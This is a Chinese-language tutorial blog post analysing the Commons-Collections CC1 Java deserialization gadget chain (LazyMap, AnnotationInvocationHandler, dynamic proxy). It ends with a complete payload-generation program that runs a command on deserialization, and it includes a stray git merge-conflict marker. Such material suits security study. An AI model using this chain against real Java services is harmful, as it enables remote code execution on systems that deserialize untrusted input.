 ```yaml
---
title: Commons-Collections篇02-CC1链-2
date: 2025-9-25 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```




# 调用链

![image-20250925175604377](Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925175604377.png)

# 初步构造-寻找transform

还是从`transform`出发，这次找的是`LazyMap`类，`LazyMap`类的get方法中有调用`transform`

给`factory`赋值`invokeTransformer`，并且给`key`赋值`Runtime`，就可以命令执行

![image-20250925150603061](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925150603061.png)

`factory`可以通过构造函数来定义，构造函数可以通过`decorate`方法来实现

![image-20250925150625884](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925150625884.png)

- `LazyMap`没有无参构造，有参构造是`protected`类型，所以要用到反射，拿到`LazyMap`类，再去调用下面的方法
- 构造函数有两个参数，一个是`map`类型，一个是`Transformer`类型的`factory`，后面get函数 用到的就是`factory`执行`transform`——`this.factory.transform(key);`
- 所以在使用`decorate方法`进行有参构造时，将`invokeTransformer`赋值给`factory`
- 最后再使用`get`方法传入`Runtime`对象

```java
public class CC2 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"});
        invokerTransformer.transform(runtime);

       Class<LazyMap> c = LazyMap.class;
       HashMap<Object,Object> hashMap = new HashMap<>();
       Map decoratemap =  LazyMap.decorate(hashMap,invokerTransformer);
       Method LazyMapget = c.getDeclaredMethod("get",Object.class);
       LazyMapget.setAccessible(true);
       LazyMapget.invoke(decoratemap,runtime);
    }
}
```

# 第二步-寻找get

上面这条链可以成功命令执行，那么接下来就是要找`get`方法

`AnnotationInvocationHandler`下的`invoke`方法中有`get`方法，并且这个类下还有`readObject()`，可以当做入口类

![image-20250925154533123](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925154533123.png)

`get`方法是通过`MemberValues`进行调用的,`MemberValues`是通过构造函数给其赋值

构造函数没有类型就是default类型，要通过反射来调用

![image-20250925164551320](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925164551320.png)

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);
```

# 通过proxy动态生成代理类

解释一下上面代码最后一行，这也是我当时看代码时的疑惑：

> proxy动态生成代理类时，最后一个参数要求是`InvocationHandler`类型，有人可能会问为什么不直接用`AnnotationInvocationHandler`，`AnnotationInvocationHandler`就是实现了`InvocationHandler`这个接口，为什么还要强转重新创建一个变量，尝试一下就可以知道，会报错，因为不是public，无法从外部访问

![image-20250925172317510](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925172317510.png)

该类实现了`InvocationHandler`这个接口，是一个动态代理类，想调用`invoke()`方法，只需要调用被代理对象的任意方法

这里需要学习一下动态代理

[12、动态代理详解_哔哩哔哩_bilibili](./https://www.bilibili.com/video/BV1mc411h719/?p=11&spm_id_from=333.1007.top_right_bar_window_history.content.click)

使用`proxy`动态生成一个代理类，调用代理类的任意方法时就会调用`invoke`方法

```
Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
```

而且`invoke`方法中还进行了判断，要绕过判断才能走到`get`方法，不能用`equals\toString\hashCode\annotationType`方法

![image-20250925173222757](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925173222757.png)

我们在CC链1中用到的`ReadObject`方法，其中的`memberValues`调用的`entrySet`方法也可以绕过上面的判断，只需要让`memberValues`成为动态代理类就可以了

还是和上面一样，通过反射给`memberValues`赋值

![image-20250925173454514](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925173454514.png)

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler membervalues = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);
```

最终流程就是：

反序列化时调用`readObject`，然后执行其中的`MemberValues.entryset`，`MemberValues`又是我们动态定义的代理类，就会执行`invoke`方法去执行其中的`get`方法，执行get方法时我们又将`MemberValues`赋值为`LazyMap`通过`decorate`方法进行实例化过的`decorateMap`，最终执行的就是`LazyMap`的`get`方法，`LazyMap`的`get`方法下又执行了`factory.transform`，`factory`我们已经通过`decorate`方法来调用构造函数赋值为`InvokerTransformer`,最终就会执行`InvokerTransformer.transform`,该方法又可以任意命令执行


<<<<<<< HEAD
=======
![image-20250925175604377](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925175604377.png)
>>>>>>> 4283b47aa81cb2f20c10f726cb9fa12fbfafc886

# 完整代码

```java
package org.example;

import com.sun.net.httpserver.Filter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC2 {
    public static void main(String[] args) throws Exception{
       Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
             new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
             new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
             new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"notepad.exe"})
       };
     ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
     HashMap<Object, Object> hashMap = new HashMap<>();
     Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

     Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);

     Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
     InvocationHandler membervalues = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);


     serialize(membervalues);
     unserialize("ser.bin");
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(object);
    }
    public static void unserialize(Object object) throws Exception{
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("test.txt"));
        ois.readObject();
    }
}

```


